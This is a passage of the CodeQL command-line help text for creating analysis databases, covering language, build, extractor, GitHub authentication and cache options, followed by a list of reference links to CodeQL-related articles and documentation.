                             The language that the new database will be used to
                               analyze.
                             Use codeql resolve languages to get a list of the
                               pluggable language extractors found on the
                               search path.
                             When the --db-cluster option is given, this can
                               appear multiple times, or the value can be a
                               comma-separated list of languages.
                             If this option is omitted, and the source root
                               being analysed is a checkout of a GitHub
                               repository, the CodeQL CLI will make a call to
                               the GitHub API to attempt to automatically
                               determine what languages to analyse. Note that
                               to be able to do this, a GitHub PAT token must
                               be supplied either in the environment variable
                               GITHUB_TOKEN or via standard input using the
                               --github-auth-stdin option.
  -s, --source-root=<dir>    [Default: .] The root source code directory. In
                               many cases, this will be the checkout root.
                               Files within it are considered to be the primary
                               source files for this database. In some output
                               formats, files will be referred to by their
                               relative path from this directory.
  -j, --threads=<num>        Use this many threads for the import operation,
                               and pass it as a hint to any invoked build
                               commands.
                             Defaults to 1. You can pass 0 to use one thread
                               per core on the machine, or -N to leave N cores
                               unused (except still use at least one thread).
  -M, --ram=<MB>             Use this much memory for the import operation, and
                               pass it as a hint to any invoked build commands.
  -c, --command=<command>    For compiled languages, build commands that will
                               cause the compiler to be invoked on the source
                               code to analyze. These commands will be executed
                               under an instrumentation environment that allows
                               analysis of generated code and (in some cases)
                               standard libraries.
                             If no build command is specified, the command
                               attempts to figure out automatically how to
                               build the source tree, based on heuristics from
                               the selected language pack.
                             Beware that some combinations of multiple
                               languages require an explicit build command to
                               be specified.
Extractor selection options:
      --search-path=<dir>[;<dir>...]
                             A list of directories under which extractor packs
                               may be found. The directories can either be the
                               extractor packs themselves or directories that
                               contain extractors as immediate subdirectories.
                             If the path contains multiple directory trees,
                               their order defines precedence between them: if
                               the target language is matched in more than one
                               of the directory trees, the one given first wins.
                             The extractors bundled with the CodeQL toolchain
                               itself will always be found, but if you need to
                               use separately distributed extractors you need
                               to give this option (or, better yet, set up
                               --search-path in a per-user configuration file).
Options to configure how to call the GitHub API to auto-detect languages.
  -a, --github-auth-stdin    Accept a GitHub Apps token or personal access
                               token via standard input.

                             This overrides the GITHUB_TOKEN environment
                               variable.
  -g, --github-url=<url>     URL of the GitHub instance to use. If omitted, the
                               CLI will attempt to autodetect this from the
                               checkout path and if this is not possible
                               default to https://github.com/
Options to configure the package manager.
      --registries-auth-stdin
                             Authenticate to GitHub Enterprise Server Container
                               registries by passing a comma-separated list of
                               <registry_url>=<token> pairs.

                             For example, you can pass "https://containers.
                               GHEHOSTNAME1/v2/=TOKEN1,https://containers.
                               GHEHOSTNAME2/v2/=TOKEN2" to authenticate to two
                               GitHub Enterprise Server instances.

                             This overrides the CODEQL_REGISTRIES_AUTH and
                               GITHUB_TOKEN environment variables. If you only
                               need to authenticate to the github.com Container
                               registry, you can instead authenticate using the
                               simpler --github-auth-stdin option.
Low-level dataset cleanup options:
      --max-disk-cache=<MB>  Set the maximum amount of space that the disk
                               cache for intermediate query results can use.
                             If this size is not configured explicitly, the
                               evaluator will try to use a "reasonable" amount
                               of cache space, based on the size of the dataset
                               and the complexity of the queries. Explicitly
                               setting a higher limit than this default usage
                               will enable additional caching which can speed
                               up later queries.
  -m, --mode=<mode>          Select how aggressively to trim the cache. Choices
                               include:
                             brutal: Remove the entire cache, trimming down to
                               the state of a freshly extracted dataset
                             normal (default): Trim everything except
                               explicitly "cached" predicates.
                             light: Simply make sure the defined size limits
                               for the disk cache are observed, deleting as
                               many intermediates as necessary.
      --cleanup-upgrade-backups
                             Delete any backup directories resulting from
                               database upgrades.
Options to control extractor behavior:
  -O, --extractor-option=<extractor-option-name=value>
                             Set options for CodeQL extractors.
                               extractor-option-name should be of the form
                               extractor_name.group1.group2.option_name or
                               group1.group2.option_name. If
                               extractor_option_name starts with an extractor
                               name, the indicated extractor must declare the
                               option group1.group2.option_name. Otherwise, any
                               extractor that declares the option group1.group2.
                               option_name will have the option set. value can
                               be any string that does not contain a newline.
                             You can use this command-line option repeatedly to
                               set multiple extractor options. If you provide
                               multiple values for the same extractor option,
                               the behaviour depends on the type that the
                               extractor option expects. String options will
                               use the last value provided. Array options will
                               use all the values provided, in order. Extractor
                               options specified using this command-line option
                               are processed after extractor options given via
                               --extractor-options-file.
                             When passed to codeql database init or codeql
                               database begin-tracing, the options will only be
                               applied to the indirect tracing environment. If
                               your workflow also makes calls to codeql
                               database trace-command then the options also
                               need to be passed there if desired.
                             See https://codeql.github.
                               com/docs/codeql-cli/extractor-options for more
                               information on CodeQL extractor options,
                               including how to list the options declared by
                               each extractor.
      --extractor-options-file=<extractor-options-bundle-file>
                             Specify extractor option bundle files. An
                               extractor option bundle file is a JSON file
                               (extension .json) or YAML file (extension .yaml
                               or .yml) that sets extractor options. The file
                               must have the top-level map key 'extractor' and,
                               under it, extractor names as second-level map
                               keys. Further levels of maps represent nested
                               extractor groups, and string and array options
                               are map entries with string and array values.
                             Extractor option bundle files are read in the
                               order they are specified. If different extractor
                               option bundle files specify the same extractor
                               option, the behaviour depends on the type that
                               the extractor option expects. String options
                               will use the last value provided. Array options
                               will use all the values provided, in order.
                               Extractor options specified using this
                               command-line option are processed before
                               extractor options given via --extractor-option.
                             When passed to codeql database init or codeql
                               database begin-tracing, the options will only be
                               applied to the indirect tracing environment. If
                               your workflow also makes calls to codeql
                               database trace-command then the options also
                               need to be passed there if desired.
                             See https://codeql.github.
                               com/docs/codeql-cli/extractor-options for more
                               information on CodeQL extractor options,
                               including how to list the options declared by
                               each extractor.
Common options:
  -h, --help                 Show this help text.
  -v, --verbose              Incrementally increase the number of progress
                               messages printed.
  -q, --quiet                Incrementally decrease the number of progress
                               messages printed.
Some advanced options have been hidden; try --help -v for a fuller view.
```

参考内容：

https://xz.aliyun.com/t/10707

http://tttang.com/archive/1570/

https://github.com/github/codeql/tree/main/java/ql/src/experimental/Security/CWE/CWE-020

https://www.cnblogs.com/hellobao/articles/17249334.html

https://github.com/waderwu/extractor-java

https://www.4hou.com/shop/posts/wgzz

https://docs.github.com/zh/code-security/code-scanning/automatically-scanning-your-code-for-vulnerabilities-and-errors/troubleshooting-the-codeql-workflow

